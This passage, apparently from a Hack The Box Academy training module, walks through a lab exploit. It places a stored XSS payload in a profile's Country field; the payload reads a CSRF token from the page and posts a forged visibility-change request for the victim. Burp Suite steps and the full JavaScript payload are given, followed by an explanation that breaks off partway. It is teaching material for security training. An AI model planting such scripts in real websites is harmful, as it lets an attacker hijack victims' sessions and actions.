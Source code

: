 By browsing the application, we notice that Ela Stienen can't share her profile. This is because her profile is _private_. Let us change that by clicking "Change Visibility."

Then, activate Burp Suite's proxy ( _Intercept On_) and configure your browser to go through it. Now click _Make Public!_.

![image](https://academy.hackthebox.com/storage/modules/153/45.png)

You should see the below inside Burp Suite's proxy.

![image](https://academy.hackthebox.com/storage/modules/153/56.png)

Forward all requests so that Ela Stienen's profile becomes public.

Let us focus on the payload we should specify in the _Country_ field of Ela Stienen's profile to successfully execute a CSRF attack that will change the victim's visibility settings (From private to public and vice versa).

The payload we should specify can be seen below.

```javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();
function handleResponse(d) {
    var token = this.responseText.match(/name="csrf" type="hidden" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/app/change-visibility', true);
    changeReq.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    changeReq.send('csrf='+token+'&action=change');
};
</script>

```

Let us break things down for you.

Firstly we put the entire script in `<script>` tags, so it gets executed as valid JavaScript; otherwise, it will be rendered as text.

```javascript
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/app/change-visibility',true);
req.send();

```

The script snippet above creates an ObjectVariable called _req_, which we will be using to generate a request. _var req = new XMLHttpRequest();_ is allowing us to get ready to send HTTP requests.

```javascript
req.onload = handleResponse;

```
